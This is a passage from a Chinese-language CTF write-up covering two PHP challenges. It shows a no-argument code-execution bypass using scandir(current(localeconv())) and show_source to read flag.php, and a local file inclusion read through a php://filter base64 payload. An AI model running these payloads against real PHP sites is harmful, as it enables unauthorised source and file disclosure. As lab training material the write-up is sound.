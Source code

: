 ```sql
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

由代码审计 传参经过了三层过滤

第一层过滤了伪协议 所以不考虑伪协议的使用

第二层正则表达式匹配含义是匹配var_dump(scandir())这种无参数命令执行

第三层过滤了一些函数

线利用以下函数构造payload

```sql
current() ：返回数组中的单元，默认取第一个值。
localeconv() ：返回一包含本地数字及货币格式信息的数组。（但是这里数组第一项就是‘.’这个.的用处很大）
scandir() :将返回当前目录中的所有文件和目录的列表。
```

<font style="color:rgb(77, 77, 77);">scandir('.')是返回当前目录,虽然我们无法传参，但是由于localeconv() 返回的数组第一个就是‘.’，current()取第一个值，那么current(localeconv())就能构造一个‘.’,那么以下就是一个简单的返回查看</font>

```sql
?exp=var_dump(scandir(current(localeconv())));
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736578889878-ba039e94-f80f-4230-b550-bb630dd75f94.png)

<font style="color:rgb(77, 77, 77);">查看到flag.php在当先数组的第4个位置，所以需要移动指针 </font>

<font style="color:rgb(77, 77, 77);">最后利用next() array_reverse() show_source() 读取flag</font>

```plain
?exp=var_dump(show_source(next(array_reverse(scandir(current(localeconv()))))));
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736579317019-fa9b2790-2c54-48d5-9575-daaa5fa49d4f.png)

## [鹏城杯 2022简单包含]
打开靶机发现一段php代码

```php
<?php 
  highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php; 
```

题目提示flag的位置 且存在文件包含漏洞 以post方式传参 用php伪协议读取内容 

```php
flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php
```
